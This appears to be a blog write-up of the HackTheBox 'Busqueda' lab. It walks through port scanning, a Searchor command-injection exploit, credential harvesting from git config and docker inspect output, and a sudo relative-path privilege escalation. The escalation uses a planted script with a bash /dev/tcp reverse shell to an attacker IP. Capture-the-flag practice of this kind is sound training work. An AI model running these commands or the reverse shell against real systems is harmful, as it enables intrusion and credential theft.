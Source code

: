 
---
title: "Busqueda"
summary: "Máquina Busqueda de HackTheBox"
categories: ["Post","Blog",]
tags: ["post","lorem","ipsum"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2021-09-04

---
- - -

| Machine Info         |              |
| -------------------- | ------------ |
| **Platform**         | HackTheBox   |
| **Operative System** | Linux        |
| **Difficulty**       | Easy         |
| **IP**               | 10.10.11.208 |
- - -
## Enumeration

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p22,80 -sCV --min-rate 2000 -T5 -n -Pn 10.10.11.208 -oN ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that the web on port 80 redirects to **searcher.htb**. Let's add it to `/etc/hosts`.

As soon as we land on the page, we see the following:
![Busqueda1](img/Busqueda/busqueda1.png)

A quick look shows the version of the App that is running behind this website, which is **Searchor 2.4.0**. If we look for vulnerabilities, we find the following [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)
- - -
## Exploitation
Let's run the exploit:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ./exploit.sh http://searcher.htb/ 10.10.14.10 4646
```

We put a `netcat` listener to receive the connection:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4646         
listening on [any] 4646 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 40288
```

We succesfully enter the machine as user **svc** .
```bash
svc@busqueda:~$ cat user.txt
cat user.txt
75a17...8bd3e
```
- - -
## Privilege Escalation
Looking though the system files, we find a `.git` with credentials in the **app** folder.

```bash
svc@busqueda:/var/www/app/.git$ cat config

[core]
	repositoryformatversion = 0
	...
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

The user is **cody** and the password is **jh1usoih2bkjaspwe92** for an application in a subdomain called **gitea**. Let's add it to the `/etc/hosts` and take a look.

![Busqueda2](img/Busqueda/busqueda2.png)

Inside here, we don't find anything interesing, appart that we can see a user called **administrator**. Although, we can try to SSH with the **svc** user and **cody's** password:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ssh svc@10.10.11.208                   
svc@10.10.11.208's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  ...

Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
```

Let's check the sudo privileges that this user has:

```bash
svc@busqueda:/opt/scripts$ sudo -l

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

This user has the right to execute that script inside **/opr/scripts**.

If we run it, we can see the following options:

```bash
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

After some investigation, we discover the `docker-inspect` option can be use to retrieve information from the docker containers that are running in the machine, before seen with the  `docker-ps` option.


```json
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

"Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
```

It looks like we find more credentials for the **gitea** application. Let's try to log in as **administrator**
with these credentials.

![Busqueda3](img/Busqueda/busqueda3.png)

Nice! Now we can check the content of the **scripts** in the **/opt** folder.

Reading the script `system-checkup.py` script we notice that the `full-checkup.sh` script is referenced as if it was in the same folder:

```
...
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
...
```

We can abuse this by creating our own malicious script and reference it, as we are executing it with sudo privileges:

```bash
svc@busqueda:/tmp$ cat full-checkup.sh 

#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/4647 <&1'
```

>Keep in mind that you need to grant execution privileges to the script to run, as this was a mistake of mine that took me quite a lot of time to figure out.

Now, we set a `netcat` listener and execute the malicious script:

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

In the `netcat` we receive the root shell:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4647
listening on [any] 4647 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 47020
root@busqueda:/tmp# whoami
root
```

Nice! We rooted the machine.
```bash
root@busqueda:~# cat /root/root.txt
cat /root/root.txt
ccd03ae...0e87097
```